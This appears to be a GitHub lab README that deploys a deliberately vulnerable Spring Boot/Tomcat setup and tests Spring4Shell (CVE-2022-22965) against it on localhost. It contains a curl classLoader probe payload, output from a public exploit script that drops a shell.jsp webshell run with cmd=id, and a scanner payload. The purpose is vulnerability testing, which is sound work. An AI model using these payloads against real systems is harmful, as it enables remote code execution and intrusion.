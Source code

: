 # Lab 1: Vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on vulnerable tomcat version 8.5.73 with open-jdk 11
```
Tomcat version: 8.5.73
openJDK: 11
Spring Boot: 2.6.3
```

## How to deploy?

```
$ docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8000:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8000/helloworld/greeting

## Test if application is vulnerable

### POC 1: Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8000/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0                               130 ⨯
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 20:32:43 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T20:32:43.423+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc.


### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
$ python exploit.py --url http://localhost:8000/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8000/shell.jsp?cmd=id
```

It gives 200 OK response which mease exploit is successful to confirm go to http://localhost:8000/shell.jsp?cmd=id and you will se `id` command output so now it is confirmed that spring boot version 2.6.3 running on tomcat version 8.5.73 with jdk11 is vulnerable.


let's try another poc

### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8000/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8000/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8000/helloworld/greeting | PAYLOAD: class.module.classLoader[ib1153g]=ib1153g
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8000/helloworld/greeting
                                             
```

